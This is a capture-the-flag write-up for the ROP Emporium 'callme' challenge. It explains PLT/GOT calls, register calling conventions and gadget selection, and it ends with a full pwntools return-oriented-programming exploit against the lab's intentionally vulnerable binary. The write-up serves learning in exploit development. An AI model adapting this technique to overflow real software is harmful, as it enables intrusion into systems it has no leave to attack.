




# ROP Emporium | Callme

## Challenge Objective

You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order. Each with the arguments:

* `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

For the x86\_64 binary, double up those values:

* `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

---

## Exploit Approach

If you've read the previous challenges, `ret2win` and `split`, it's pretty standard by now that we overflow the buffer through `pwnme()` and enter another function. So I will skip that part in this writeup and jump to the function we are interested in AFTER `pwnme()`'s `ret` overwrite.

### The usefulFunction():

.png)

Here the function calls 3 different functions in the order `_three`, `_two`, `_one`. Our goal is to call them in the opposite order. There's two problems with that:

1. If we use the address for `call callme_one()` inside `usefulFunc`, it doesn't have a `ret`, so it can't be used as a gadget.
2. Even if it did have a `ret`, calling `callme_two` would go through `_one` and ruin the order.

Hence we need to call them directly. We know that they are imported functions from this functions list:



These functions aren’t called directly in `usefulFunction()`, but their PLT entries allow us to invoke them just like dynamically-linked functions. When the `call callme_one` instruction in `usefulFunction()` is executed, it jumps to the PLT stub. On the first call, the PLT resolves the actual address of `callme_one` using the dynamic linker and updates the Global Offset Table (GOT). After that, the PLT just jumps directly via the GOT entry to the real function.

### plt stub of a callme\_one :



For the purposes of this challenge, all you need to know is that the start of this address will find the addr of the actual `callme_one` from lib and execute it. The whole process of how this external address is found and resolved from plt is much better explained by other people. I will link them below.

### Function Addresses from .plt:

```python
call_one = p64(0x00400720) #callme_one@plt
call_two = p64(0x00400740) #callme_two@plt
call_three = p64(0x004006f0) #callme_three@plt
```

## Argument Setup

Now let's take a look at `usefulFunc` again.

We see that before the function call there's:

```asm
0x004008f6      mov     edx, 6
0x004008fb      mov     esi, 5
0x00400900      mov     edi, 4
0x00400905      call    callme_three
```

`edx`, `esi` and `edi` actually hold the arguments for the subsequent function. The convention is as follows:

| Arg | Register |
| --- | -------- |
| 1st | rdi      |
| 2nd | rsi      |
| 3rd | rdx      |
| 4th | rcx      |
| 5+  | r8, r9   |

Hence we need to find gadgets that pop `rdi`, `rsi` and `rdx`.

A simple `ROPgadget --binary callme --depth 12` gives us the required gadgets.



Now unfortunately it's not perfectly pop rsi ; ret, pop rdi; ret, pop rdx; ret.

But we can still use these as our required registers are present.

### Gadgets:

```
0x00000000004009a3 : pop rdi ; ret          # gadget_1
0x000000000040093d : pop rsi ; pop rdx ; ret # gadget_2
```

If it's `pop rsi ; pop rdx ; ret`, we simply add the parameters one after another.

### Our parameters:

```python
p1 = p64(0xdeadbeefdeadbeef)
p2 = p64(0xcafebabecafebabe)
p3 = p64(0xd00df00dd00df00d)
```

### Argument payload:

```
gadget_1 -> p1 -> gadget_2 -> p2 -> p3
```

Which can be our `set_param` variable.

---

## Final Exploit Payload

```python
from pwn import *

junk = b'A' * 40

p1 = p64(0xdeadbeefdeadbeef)
p2 = p64(0xcafebabecafebabe)
p3 = p64(0xd00df00dd00df00d)

g1 = p64(0x00000000004009a3) # pop rdi ; ret
g2 = p64(0x000000000040093d) # pop rsi ; pop rdx ; ret

call_one = p64(0x00400720) #callme_one@plt
call_two = p64(0x00400740) #callme_two@plt
call_three = p64(0x004006f0) #callme_three@plt

set_param = g1 + p1 + g2 + p2 + p3

payload = junk + set_param + call_one + set_param + call_two + set_param + call_three

p = process('./callme')
p.recvuntil('>')
p.sendline(payload)
p.interactive()
```

---

## Flag

And our flag is returned



## Links for PLT/GOT

- [LiveOverflow](https://youtu.be/kUk5pw4w0h4)
- [RazviOverflow](https://www.youtube.com/watch?v=B4-wVdQo040) : He links more resources for further learning.

